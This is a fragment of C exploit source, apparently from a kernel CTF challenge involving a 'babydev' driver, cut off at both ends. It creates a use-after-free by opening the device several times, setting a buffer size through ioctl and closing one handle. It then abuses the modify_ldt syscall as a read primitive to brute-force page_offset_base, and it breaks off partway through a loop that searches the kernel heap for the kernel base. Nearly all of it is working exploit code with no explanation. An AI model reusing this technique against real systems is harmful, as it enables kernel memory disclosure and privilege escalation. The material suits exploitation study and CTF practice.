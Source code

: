 ```c
}

int main(void)
{
    int                 fd[10];

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m");
    saveStatus();

    // construct UAF
    fd[0] = open("/dev/babydev", O_RDWR);
    fd[1] = open("/dev/babydev", O_RDWR);
    fd[2] = open("/dev/babydev", O_RDWR);

    ioctl(fd[0], 0x10001, 0x10);
    write(fd[0], "arttnba3", 8);
    close(fd[0]);

    // seek for kernel heap addr
    struct user_desc     desc;
    size_t                 page_offset_base = 0xffff888000000000;
    int                 retval;

    desc.base_addr = 0xff0000;
    desc.entry_number = 0x8000 / 8;
    desc.limit = 0;
    desc.seg_32bit = 0;
    desc.contents = 0;
    desc.limit_in_pages = 0;
    desc.lm = 0;
    desc.read_exec_only = 0;
    desc.seg_not_present = 0;
    desc.useable = 0;
    syscall(SYS_modify_ldt, 1, &desc, sizeof(desc));
    while(1)
    {
        write(fd[1], &page_offset_base, 8);
        retval = syscall(SYS_modify_ldt, 0, &desc, 8);// final param should be 8 there
        if (retval >= 0)
            break;
        page_offset_base += 0x2000000;
    }
    printf("\033[32m\033[1m[+] Found page_offset_base: \033[0m%lx\n", page_offset_base);

    // read kernel addr by searching the kernel heap
    size_t search_addr;
    int pipe_fd[2];
    size_t *buf;

    pipe(pipe_fd);
    buf = (size_t*) mmap(NULL, 0x8000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    search_addr = page_offset_base;
    kernel_base = 0;
    while(1)
    {
        write(fd[1], &search_addr, 8);
        retval = fork();
        if (!retval)    // child
        {
            syscall(SYS_modify_ldt, 0, buf, 0x8000);

            for (int i = 0; i < 0x1000; i++)
            {
```